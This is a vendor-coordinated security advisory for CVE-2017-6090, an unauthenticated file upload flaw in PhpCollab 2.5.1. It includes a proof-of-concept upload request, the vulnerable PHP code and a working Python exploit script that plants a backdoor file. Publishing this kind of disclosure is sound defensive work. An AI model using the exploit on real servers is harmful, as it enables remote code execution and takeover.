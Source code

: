 # [CVE-2017-6090] PhpCollab 2.5.1 Arbitrary File Upload (unauthenticated)

## Description

PhpCollab is an open source web-based project management system, that enables collaboration across the Internet.

## Arbitrary File Upload

The phpCollab code does not correctly filter uploaded file contents. An unauthenticated attacker may upload and execute arbitrary code.

**CVE ID**: CVE-2017-6090

**Access Vector**: remote

**Security Risk**: Critical

**Vulnerability**: CWE-434

**CVSS Base Score**: 10 (Critical)

**CVSS Vector String**: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

### Proof of Concept

The following HTTP request allows an attacker to upload a malicious php file, without authentication.
Thus, a file named after `$id.extension` is created.

For example, a backdoor file can be reached at `http://phpCollab.lan/logos_clients/1.php`.

```
POST /clients/editclient.php?id=1&action=update HTTP/1.1
Host: phpCollab.lan
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=---------------------------154934846911423734231554128137
Content-Length: 252

-----------------------------154934846911423734231554128137
Content-Disposition: form-data; name="upload"; filename="backdoor.php"
Content-Type: application/x-php

<?php phpinfo(); ?>

-----------------------------154934846911423734231554128137--
```


### Vulnerable code

The vulnerable code is found in `clients/editclient.php`, line 63.

```
$extension = strtolower( substr( strrchr($_FILES['upload']['name'], ".") ,1) );
if(@move_uploaded_file($_FILES['upload']['tmp_name'], "../logos_clients/".$id.".$extension"))
{
  chmod("../logos_clients/".$id.".$extension",0666);
  $tmpquery = "UPDATE ".$tableCollab["organizations"]." SET extension_logo='$extension' WHERE id='$id'";
  connectSql("$tmpquery");
}
```


### Exploit code

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import os
import sys
import requests

if __name__ == '__main__':
    if (len(sys.argv) != 4):
        print("Enter your target, userid and path for file upload like : python exploit.py http://www.phpCollabURL.lan 1 /tmp/test.php")
        sys.exit(1)

    target = "%s/clients/editclient.php?id=%s&action=update" % (sys.argv[1], sys.argv[2])
    print("[*] Trying to exploit with URL : %s..." % target)
    backdoor = {'upload': open(sys.argv[3], 'rb')}
    r = requests.post(target, files=backdoor)
    extension = os.path.splitext(sys.argv[3])[1]
    link = "%s/logos_clients/%s%s" % (sys.argv[1], sys.argv[2], extension )
    r = requests.get(link)
    if r.status_code == 200:
        print("[OK] Backdoor link : %s" % link)
    else:
        print("[FAIL]Problem (status:%s) (link:%s)" % (r.status_code, link))
```

## Solution

Update to the latest version avalaible.

## Affected versions

* Version <= 2.5.1

## Timeline (dd/mm/yyyy)

* 27/08/2016 : Initial discovery.
* 05/10/2016 : Initial contact.
* 11/10/2016 : GPG Key exchange.
* 19/10/2016 : Advisory sent to vendor.
* 13/02/2017 : First fixes.
* 15/02/2017 : Fixes validation by Sysdream.
* 21/02/2017 : PhpCollab ask to wait before publish.
* 21/06/2017 : New version has been released.
* 29/09/2017 : Public disclosure.

## Credits

* Nicolas SERRA, Sysdream  (n.serra -at- sysdream -dot- com)

--
SYSDREAM Labs <labs@sysdream.com>
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1
* Website: https://sysdream.com/
* Twitter: @sysdream